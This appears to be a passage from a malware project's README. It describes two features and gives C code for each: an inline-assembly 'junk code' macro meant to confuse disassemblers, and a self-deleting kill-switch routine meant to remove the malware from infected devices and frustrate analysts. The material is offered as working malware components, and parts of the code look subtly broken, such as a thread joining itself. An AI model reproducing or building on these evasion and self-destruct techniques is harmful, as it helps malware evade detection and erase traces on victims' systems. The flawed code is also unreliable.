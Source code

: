 ### Anti-disassembling
"junk code" we defined macro named JUNK, which consists of assembly instructions deliberately designed to confuse reverser. The macro includes instructions such as pushing and popping the eax register, XORing eax with itself, and using an undefined instruction sequence, followed by a single byte (0x04). These instructions introduce meaningless code that can make the disassembly output more hard to know what exactly going on. 

```c
#define JUNK \

__asm__ volatile("push %eax \n"\
				 "xor %eax, %eax\n"\
				 "jz .+5 \n"\
				 ".word 0xC483 \n"\
				 ".byte 0x04 \n"\
				 "pop %eax \n");
```

### Autodestruction
This Part of the code will come as Kill-Switch sending the malware a command to delete itself from infected devices also it can be used as anti-analysis techniques. simply utilizing a combination of forking a child process and executing code in the child process, the autodestruction mechanism adds a layer of complexity to the self-destruction process. This complexity can make it more challenging for novice reversers or analysts to understand the behavior of the malware, By dynamically creating a detached thread and copying code instructions into memory, the autodestruction mechanism can avoid static analysis techniques that rely on examining the original executable file. Additionally, the attempts to delete the file and the usage of sleep delays further complicate the analysis process. 

``remote_thread`` that is executed in a remote process. It waits for the parent process to terminate using ``pthread_join``, attempts to delete the file specified by ``szFileName`` using ``fnUnlink``, and if the deletion fails, it sleeps for one second before trying again. Finally, it exits the remote process using ``fnExit``.

```c
/* Routine to execute in remote process. */
static void remote_thread(SELFDEL *remote)
{

/* wait for parent process to terminate */
void *status;
pthread_join(pthread_self(), &status);

/* try to delete the executable file */
while(remote->fnUnlink(remote->szFileName) == -1)

{

/* failed - try again in one second's time */
remote->fnSleep(1);
}

/* finished! exit so that we don't execute garbage code */
remote->fnExit(0);
}

  ```

